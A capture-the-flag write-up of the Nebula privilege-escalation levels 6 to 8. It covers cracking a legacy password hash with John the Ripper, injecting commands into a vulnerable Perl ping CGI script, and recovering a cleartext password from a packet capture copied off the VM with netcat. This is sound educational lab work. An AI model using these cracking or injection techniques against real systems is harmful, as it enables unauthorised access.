 ```yaml
---
title: "Writeup: Nebula (level 6 - level 8)"
date: 2020-12-19T16:05:18+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 6

The description of Level 6 is provided as follows.

```
The flag06 account credentials came from a legacy unix system.

To do this level, log in as the level06 account with the password level06. 
Files for this level can be found in /home/flag06.
```

If you are not familiar with the password file (/etc/passwd) and shadow file (/etc/shadow) in the Unix-based system, you can check this [post](https://chuang76.github.io/posts/users_and_groups/) I wrote before. In this challenge, we are going to use the password file to get the flag. 

Let's check the contents of /etc/passwd first. The second field is about password information, i.e., encrypted password. In the modern system, the second field is typically stored as `x`, which means the actual content is maintained in another file called /etc/shadow.

![](https://github.com/chuang76/image/blob/master/06-1.PNG?raw=true)

However, this is a legacy Unix system, the password is not "hidden" in the shadow file. So we can use [John The Ripper](https://zh.wikipedia.org/wiki/John_The_Ripper), a free crafting passwords tool to decode the password. 

```
$ cat passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

$ john passwd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 100% 2/3 20.00g/s 15060p/s 15060c/s 15060C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, we have the decoded password, i.e., "hello". Let's use it to log in as account flag06 and get the flag. 

![](https://github.com/chuang76/image/blob/master/06-2.PNG?raw=true)

<br>

## Level 7

Here is the description of Level 7.

```
The flag07 user was writing their very first perl program that allowed them to 
ping hosts to see if they were reachable from the web server.

To do this level, log in as the level07 account with the password level07. 
Files for this level can be found in /home/flag07.
```

The contents in /home/flag07 can be displayed as follows. 

![](https://github.com/chuang76/image/blob/master/07-1.PNG?raw=true)

Let's view the contents of the file index.cgi. It is a CGI script written in Perl. [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) (Common Gateway Interface) is a specification for web servers to execute programs like command-line running on a server that generates dynamic web pages. As you can see, we need to provide the parameter Host to index.cgi. Then, the ping result will be displayed on the screen. We can check that if index.cgi works successfully or not.

![](https://github.com/chuang76/image/blob/master/07-3.PNG?raw=true)

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

Subsequently, let's view the contents of the file thttpd.conf. [Thttpd](https://en.wikipedia.org/wiki/Thttpd) is a simple web server, and thttpd.conf is its configure file. Here is the part of thttpd.conf. As you can see, thttpd is listening to the port 7007, running with our target account fla07, and it supports the CGI program, index.cgi. 

```
port=7007
dir=/home/flag07
user=flag07
cgipat=**.cgi
```

So, we can use wget command to retrieve the response. For example, we can get the result of whoami. Note that the semicolon (;) character should be encoded as "%3B" in URL. 

![](https://github.com/chuang76/image/blob/master/07-4.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/07-5.PNG?raw=true)

<br>

## Level 8

The description of Level 8 is provided as follows. 

```
World readable files strike again. Check what that user was up to, 
and use it to log into flag08 account.

To do this level, log in as the level08 account with the password level08. 
Files for this level can be found in /home/flag08.
```

Here is the contents of the directory /home/flag08. [Tcpdump](https://en.wikipedia.org/wiki/Tcpdump) is a free tool that allows uses to capture packets. As you can see, capture.pcap is a tcpdump capture file. It is a file that contains packet information. 

![](https://github.com/chuang76/image/blob/master/08-1.PNG?raw=true)

The file capture.pcap is not human-readable if we try to view its contents with cat command. Instead, we should use tcpdump -r to view the contents.  

![](https://github.com/chuang76/image/blob/master/08-2.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/08-3.PNG?raw=true)

Next, we are going to analyze these packet information. We can use [Wireshark](https://en.wikipedia.org/wiki/Wireshark), a powerful packet analyzer, to analyze the file. However, since we don't have the permission to install the tool, we are not able to use Wireshark on Nebula. So let's transfer the captured file to our personal machine (e.g. in my case is Kali Linux), then analyze the file on our personal machine.  

If you are not familiar that how to make two virtual machines communication, you can check this [video](https://www.youtube.com/watch?v=vReAkOq-59I). After setting up the network, we can use [netcat](https://en.wikipedia.org/wiki/Netcat) (nc) command to transfer the file as follows. That is, the machine is running nc in listening mode on port 9527.

```
$ nc -l -p 9527 > capture.pcap
```

Subsequently, run the following command to make Nebula send the file to our personal machine. The IP address may be different depends on different machine and setting, you can check the related information via ifconfig command. The IP address of my personal machine is 192.168.100.6. 

```
$ nc 192.168.100.6 9527 < /home/flag08/capture.pcap
```

Open Wireshark on Kali Linux. 

![](https://github.com/chuang76/image/blob/master/08-4.PNG?raw=true)

Follow TCP stream, as you can see, it shows Password: backdoor...00Rm8.ate. However, the dot symbol does not represent the "dot" literally. It means some characters that are non-printable on Wireshark. 

![](https://github.com/chuang76/image/blob/master/08-5.PNG?raw=true)

Let's move on. We need to figure out what is the actual password. We can start at the No. 43 packet, which contains the character Password:. 

![](https://github.com/chuang76/image/blob/master/08-8.PNG?raw=true)

Then, we can focus on what character is transfer from 59.233.235.218 (the user who types the password) to 59.233.235.223. In the Windows system, the key Enter is represented as carriage return (CR, 0x0d) and line feed (LF, 0x0a). The characters that ends at 0x0d and 0x0a can be collected as follows. 

```
'b', 'a', 'c', 'k', 'd', 'o', 'o', 'r', 0x7f, 0x7f, 0x7f, '0', '0', 'R', 'm', '8', 0x7f, 'a', 't', 'e'
```

After checking the ASCII table, we can know that 0x7f means delete. Hence, the actual password is back00Rmate. 

```
backdoor
     ^^^      delete 
back00Rm8
        ^     delete
back00Rmate 
```

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/08-7.PNG?raw=true)


